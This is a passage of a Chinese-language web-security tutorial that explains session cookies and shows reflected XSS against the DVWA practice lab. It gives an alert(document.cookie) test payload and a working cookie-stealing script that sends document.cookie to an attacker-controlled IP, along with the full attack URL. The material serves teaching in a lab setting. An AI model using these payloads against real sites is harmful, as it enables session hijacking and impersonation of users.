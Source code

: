 大多数 web 应用程序维护**用户会话**，以便在多个 [HTTP 请求](https://pentest-tools.com/exploit-helpers/http-request-logger)中识别用户。会话由会话 cookies 标识。

例如，在成功登录到一个应用程序后，服务器将通过`Set-Cookie`头向您发送一个**会话 cookie** 。现在，如果您想要访问应用程序中的任何页面或提交表单，cookie(现在存储在浏览器中)也将包含在发送到服务器的所有请求中。这样，服务器就知道你是谁了。

因此，会话 cookies 是敏感信息，如果泄露，攻击者可能会假冒合法用户并获得对其现有 web 会话的访问权限。这种攻击被称为**会话劫持**。

浏览器中运行的 JavaScript 代码可以通过调用`document.cookie`来访问会话 cookies(当它们缺少标志 *HTTPOnly* 时)。因此，如果我们将以下有效负载注入到我们的 *name* 参数中，易受攻击的页面将在警告框中显示当前的 cookie 值:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>
```

![xss vulnerability payload injected and cookie displayed](img/1fd280dc8ae47a594907807a055b086b.png)

现在，为了**窃取 cookie**，我们必须提供一个有效载荷，将 cookie 值发送到攻击者控制的网站。

下面的有效负载在当前页面的 DOM 中创建新的 *Image* 对象，并将 *src* 属性设置为攻击者的网站。因此，浏览器将向这个外部网站(192.168.149.128)发出 HTTP 请求，URL 将包含会话 cookie。

```
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
```

这里是[攻击 URL](https://pentest-tools.com/website-vulnerability-scanning/discover-hidden-directories-and-files) ，它会将 cookies 发送到我们的服务器:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script>new  Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
```

当浏览器接收到这个请求时，它执行 JavaScript 有效负载，这个有效负载向 192.168.149.128 发出一个新请求，并在 URL 中包含 cookie 值，如下所示。

